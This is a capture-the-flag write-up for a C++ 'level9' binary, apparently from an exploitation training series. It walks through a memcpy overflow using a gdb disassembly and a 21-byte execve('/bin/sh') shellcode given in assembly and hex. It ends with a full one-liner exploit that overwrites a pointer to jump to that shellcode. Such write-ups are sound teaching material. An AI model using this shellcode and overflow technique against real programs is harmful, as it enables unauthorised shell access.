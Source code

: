 So level9 will use argv[1] and is written in c++.

A quick look at `info func` in gdb and we can see that memcpy is being used.

With a bit of bruteforce I found 109 is the length of argv[1] to make a segfault.

No system function or anything it will be a ret2libc but in c++.

```
(gdb) disass 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   ebp
   0x0804870f <+1>:     mov    ebp,esp
   0x08048711 <+3>:     sub    esp,0x18
   0x08048714 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:     mov    DWORD PTR [esp],eax
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:    add    edx,0x4
   0x08048725 <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:    mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:    mov    DWORD PTR [esp],edx
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```

We'll use a technic close to return-to-shellcode.

https://ctfcookbook.com/docs/pwn/return-to-shellcode/

Let's right a bit of asm:
```asm
xor		ecx, ecx	; ecx = 0
mul		ecx			; eax = 0
push	ecx			; 0x0 on the stack (NULL)
push	0x68732f2f	; "//sh" on the stack
push	0x6e69622f	; "/bin" on the stack
mov		ebx, esp	; ebx points to "/bin/sh"
mov		al, 0xb		; eax = 11, is the number call to execve
int		0x80		; Launch the system call
```

And to why "//sh" ? "//" is interpreted as "/" so nice but why 2 ? Because we need to have the last 2 char of the adress (since it's little endian we need to read the hex value in reverse).

Converted to hex value :

`\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80`

We know we can overflow with `memcpy`, argv[1] is used to be copied.

Let's find where our string is stored.

```
b *0x08048677
r $(python -c "print('a' * 108)")
ni
x/s 0x0804a008
```

> 0x804a008:       "H\210\004\b", 'a' <repeats 108 times>, "H\210\004\b"

Oh YA !!!!

`./level9 $(python -c "print( '\x0c\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'B' * 83 + '\x0c\xa0\x04\x08')")`

